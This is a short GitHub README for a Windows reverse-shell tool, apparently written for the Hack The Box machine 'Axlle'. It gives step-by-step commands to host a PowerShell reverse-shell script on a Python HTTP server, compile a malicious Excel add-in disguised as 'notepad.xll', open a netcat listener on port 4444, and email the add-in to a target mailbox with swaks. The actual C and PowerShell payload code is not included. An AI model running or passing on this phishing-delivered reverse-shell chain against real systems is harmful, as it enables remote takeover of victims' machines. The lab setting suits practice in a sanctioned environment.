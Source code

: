 # xll_windows_reverse_shell
xll windows reverse shell



### In your Attacker (Kali) machine:
```
git clone https://github.com/c0d3cr4f73r/xll_windows_reverse_shell.git
```
1. Update the `revsh.ps1`
2. create python http server 
```
python3 -m http.server 9999
```

### In your Attacker (Windows) machine:

1. Move `notpadXLL.c` to your windows attacker machine and update the Update the `notpadXLL.c` accordingly.
3. Open `x64 Native Tools Command Prompt for VS 2022`
4. run below command to genarte `notepad.xll`
```
cl.exe /LD notepadXLL.c /link /out:notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/fa052809-575a-480f-be6d-0ba6b7e2dde0)

5. move this `notepad.xll` to your Kali machine

### In your Kali Machine

1. download `swaks`
```
 curl -O https://jetmore.org/john/code/swaks/files/swaks-20240103.0/swaks
```

2. configure nc listner

```
nc -nlvp 4444
```

3. Use `swaks` to send an email with notepad.xll attached:
```
./swaks --to accounts@axlle.htb --from ihatethisbox@fuckhtb.htb --server 10.10.11.21 --port 25 --header "Subject: test" --body "test" --attach @notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/e0c783a7-47ba-4a05-95aa-8e8c29ce0791)

